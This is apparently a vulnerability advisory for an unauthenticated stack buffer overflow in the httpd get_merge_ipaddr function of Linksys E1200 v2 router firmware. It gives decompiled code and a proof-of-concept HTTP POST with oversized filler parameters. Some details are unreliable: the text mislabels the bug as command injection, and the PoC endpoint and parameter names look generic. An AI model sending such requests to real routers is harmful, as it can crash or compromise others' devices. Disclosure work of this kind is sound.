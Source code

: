 # Buffer Overflow Vulnerability in `get_merge_ipaddr`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Linksys E1200 v2 Router                                      |
| Firmware Version     | **E1200_v2.0.11.001_us.tar.gz**                              |
| Vulnerability Type   | **Stack-Based Buffer Overflow**                              |
| Vulnerable Component | `httpd` (function `get_merge_ipaddr`, buffer `a2`)           |
| Prerequisites        | No authentication required; remote exploitation possible via CGI parameters matching `<parameter>_0~3` |

2. Exploitation Path

```c
int __fastcall get_merge_ipaddr(const char *a1, char *a2)
{
  int i; // $s0
  const char *cgi; // $v0
  char v7[32]; // [sp+20h] [-20h] BYREF

  *a2 = 0;
  for ( i = 0; i != 4; ++i )
  {
    snprintf(v7, 0x1Eu, "%s_%d", a1, i);
    cgi = (const char *)get_cgi((int)v7);
    if ( !cgi )
      cgi = "0";
    strcat(a2, cgi);
    if ( i == 3 )
      break;
    strcat(a2, ".");
  }
  return 1;
}
```

3. **Vulnerable Binaries:** `httpd`.
4. 0-Day Command Injection Exploitation Path: In the `httpd` file, at line 11, `cgi = (const char *)get_cgi((int)v7)` receives data via `get_cgi` without any length restriction. A loop of 4 iterations performs string concatenation at line 14 with `strcat(a2, cgi)`. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/get_merge_ipaddr HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 400

param_0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&param_1=BBBBBBBBBBBBBBBBBBBBBBBBBBBBB&param_2=CCCCCCCCCCCCCCCCCCCCCCCCCCCCC&param_3=DDDDDDDDDDDDDDDDDDDDDDDDDDDD
```